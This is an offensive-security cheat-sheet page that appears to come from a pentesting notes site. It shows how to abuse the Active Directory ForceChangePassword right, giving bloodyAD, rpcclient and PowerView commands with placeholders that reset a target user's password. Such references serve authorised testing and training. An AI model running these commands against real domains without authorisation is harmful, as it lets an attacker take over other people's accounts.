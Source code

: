 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["ForceChangePassword", "active driectory", "ad", "Windows"]
---
```


### Change target user password (From Linux)

{{< tab set1 tab1 active >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> set password <TARGET_USER> '<NEW_PASSWORD>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <TARGET_USER_NEW_PASSWORD>'
```

{{< /tabcontent >}}

### Change target user password (From Windows)

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Change Target User Password

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

{{< /tabcontent >}}
